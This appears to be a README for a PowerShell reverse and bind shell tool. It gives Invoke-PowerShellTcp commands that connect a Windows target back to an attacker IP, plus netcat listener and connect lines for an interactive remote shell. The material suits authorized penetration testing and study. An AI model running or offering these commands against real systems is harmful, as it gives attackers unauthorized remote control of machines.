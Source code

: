 # PowerShell Reverse Shell Script - Documentation

## Overview

This script, developed by **dpckah001**, is a PowerShell-based reverse shell and bind shell utility. It allows you to remotely control a Windows machine by connecting back to an attacker machine (reverse shell) or by listening for incoming connections (bind shell).

## Features

- **Reverse Shell**: The target system connects back to the attacker's machine, allowing the attacker to send commands and receive output.
- **Bind Shell**: The target system opens a port and listens for incoming connections from the attacker.
- Compatible with standard tools such as Netcat.
- Customizable IP address and port.
- Real-time command execution with interactive PowerShell prompt.

## Usage

The script supports two primary modes:
- **Reverse Shell**: Connects back to a listener running on the attacker's machine.
- **Bind Shell**: Opens a port on the target system and waits for incoming connections.

### Parameters

- `-IPAddress`: The IP address to connect to (for reverse shell).
- `-Port`: The port to connect to or listen on.
- `-Reverse`: Switch to enable reverse shell mode.
- `-Bind`: Switch to enable bind shell mode.

### Requirements

- Windows system with PowerShell support.
- A listener on the attacker's machine (Netcat or similar).

## Examples

### Reverse Shell

In this example, the script runs on the target machine and connects back to the attacker's machine at IP `192.168.1.100` on port `4444`.

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress "192.168.1.100" -Port 4444
```

On the attacker's machine, you need to set up a listener:

```bash
nc -lvnp 4444
```

Once the connection is established, the attacker can interact with the target machine using PowerShell commands.

### Bind Shell

This example demonstrates running the script in bind mode, where it listens for incoming connections on port `4444`.

```powershell
Invoke-PowerShellTcp -Bind -Port 4444
```

The attacker can then connect to the target machine's IP and port:

```bash
nc <target IP address> 4444
```

Once connected, the attacker will receive an interactive PowerShell shell.

## How to Use

1. **Reverse Shell**: Use the `-Reverse` switch along with the attacker's IP and port to connect back.
   
   Example:
   ```powershell
   Invoke-PowerShellTcp -Reverse -IPAddress "192.168.1.100" -Port 4444
   ```

2. **Bind Shell**: Use the `-Bind` switch to listen on a specified port.
   
   Example:
   ```powershell
   Invoke-PowerShellTcp -Bind -Port 4444
   ```

3. On the attacker's machine, use `Netcat` (or a similar tool) to set up a listener for reverse shells or connect to bind shells.

4. After the connection is established, commands can be sent to the target system, and results will be returned interactively.

## Error Handling

If any issues arise during the connection or execution of commands, the script will attempt to handle errors and output relevant error messages. Examples of potential errors include:
- Failed connection to the target IP and port.
- Command execution errors on the target system.

## Notes

- **Security Warning**: This script is a potentially dangerous tool if used maliciously. Ensure you have authorization to run this script on any target system.
- **Legal Use**: This script should only be used for legitimate security assessments and with permission from the system's owner.

## Credits

Developed by **dpckah001**.

## Presentation effect

![目标端](./1.PNG)

![Kali端](./2.PNG)
